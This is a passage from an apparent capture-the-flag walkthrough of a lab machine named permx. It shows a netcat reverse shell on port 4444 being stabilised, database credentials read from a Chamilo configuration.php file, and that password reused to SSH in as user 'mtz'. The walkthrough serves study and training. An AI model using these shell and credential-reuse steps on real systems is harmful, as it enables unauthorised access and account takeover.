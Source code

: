 ```bash
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc

$ stty raw -echo; fg
[1]  + 23979 continued  nc -klvnp 4444

<milo/main/inc/lib/javascript/bigupload/files$ stty rows 54 cols 235
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```

Then, I looked around the website code for credentials. I found the site configuration in `app/config/configuration.php`. It contained the database credentials.

```php
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = 'REDACTED';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```

The box had only one regular user called 'mtz'. I tried to SSH as that user with the password found in the configuration.

```bash
$ ssh mtz@target
The authenticity of host 'target (10.129.219.228)' can't be established.
ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target' (ED25519) to the list of known hosts.
mtz@target's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Oct 19 05:14:44 PM UTC 2024

  System load:           0.1
  Usage of /:            60.0% of 7.19GB
  Memory usage:          13%
  Swap usage:            0%
  Processes:             240
  Users logged in:       0
  IPv4 address for eth0: 10.129.219.228
  IPv6 address for eth0: dead:beef::250:56ff:feb0:48cd


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

```